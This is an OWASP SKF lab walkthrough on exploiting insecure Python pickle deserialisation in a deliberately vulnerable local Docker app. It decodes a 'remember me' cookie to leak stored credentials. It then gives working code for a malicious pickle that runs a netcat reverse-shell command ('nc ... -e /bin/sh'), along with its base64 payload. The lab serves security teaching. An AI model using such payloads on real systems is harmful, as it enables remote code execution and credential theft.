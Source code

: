 # Deserialisation Pickle - 2

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user

![](../../.gitbook/assets/DES-Register.png)

![](../../.gitbook/assets/DES-Register2.png)

Please note that (for convenience) your password will be reset if the user already exists. Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](../../.gitbook/assets/DES-Login1.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](../../.gitbook/assets/DES-Loggedin.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](../../.gitbook/assets/DES-Rememberme1.png)

This results in the following request and response:

![](../../.gitbook/assets/DES-Rememberme2.png)

This works because we received a rememberme cookie during our initial login:

![](../../.gitbook/assets/DES-Rememberme3.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

```python
import pickle, base64
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class. So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values. This function will return all the properties and methods, even built-in properties which are default for all object.

```
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```

The attributes we were looking for are 'password' and 'username'

Putting it all toghther:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell. After instanciating the object, we serialize it and base64 encode it. This output will be our payload.

```python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

_Note: If Netcat (nc) program is not available, change the argument passed at os.system call to sleep(5)._

This will yield the following output:

```
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](../../.gitbook/assets/DES-nc-listner.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above: ![](../../.gitbook/assets/DES-Sendpayload.png)

A revers shell is is connected: ![](../../.gitbook/assets/DES-Shell.png)

## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" %}
